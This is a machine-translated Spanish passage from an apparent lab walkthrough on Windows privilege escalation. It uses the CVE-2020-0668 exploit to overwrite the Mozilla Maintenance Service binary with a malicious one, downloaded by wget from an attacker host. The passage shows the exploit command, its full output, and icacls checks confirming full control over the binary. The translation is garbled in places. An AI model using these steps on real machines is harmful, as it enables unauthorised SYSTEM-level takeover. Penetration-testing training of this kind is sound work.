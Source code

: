 Necesitamos hacer esto porque ejecutar la exploit corrompe la versión maliciosa de`maintenanceservice.exe`que se mueve a (nuestra copia en`c:\Users\htb-student\Desktop`que estamos apuntando)`c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe`que tendremos que dar cuenta más adelante. Si intentamos utilizar la versión copiada, recibiremos un`system error 216`Porque el archivo .exe ya no es un binario válido.

  Exploits de núcleo

```powershell-session
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe
```

#### Ejecutando el exploit

A continuación, ejecutemos la exploit. Acepta dos argumentos, los archivos de origen y destino.

  Exploits de núcleo

```cmd-session
C:\htb> C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"                                       

[+] Moving C:\Users\htb-student\Desktop\maintenanceservice.exe to C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe

[+] Mounting \RPC Control onto C:\Users\htb-student\AppData\Local\Temp\nzrghuxz.leo
[+] Creating symbol links
[+] Updating the HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Tracing\RASPLAP configuration.
[+] Sleeping for 5 seconds so the changes take effect
[+] Writing phonebook file to C:\Users\htb-student\AppData\Local\Temp\179739c5-5060-4088-a3e7-57c7e83a0828.pbk
[+] Cleaning up
[+] Done!
```

#### Comprobación de permisos de nuevo archivo

El exploit se ejecuta y ejecutando`icacls`Nuevamente muestra la siguiente entrada para nuestro usuario:`WINLPE-WS02\htb-student:(F)`. Esto significa que nuestro usuario de HTB-Student tiene un control total sobre el mantenimiento binario de Mantenanceservice.exe, y podemos sobrescribirlo con una versión no corrupta de nuestro binario malicioso.

  Exploits de núcleo

```cmd-session
C:\htb> icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(F)
                                                                          BUILTIN\Administrators:(F)
                                                                          WINLPE-WS02\htb-student:(F)
```
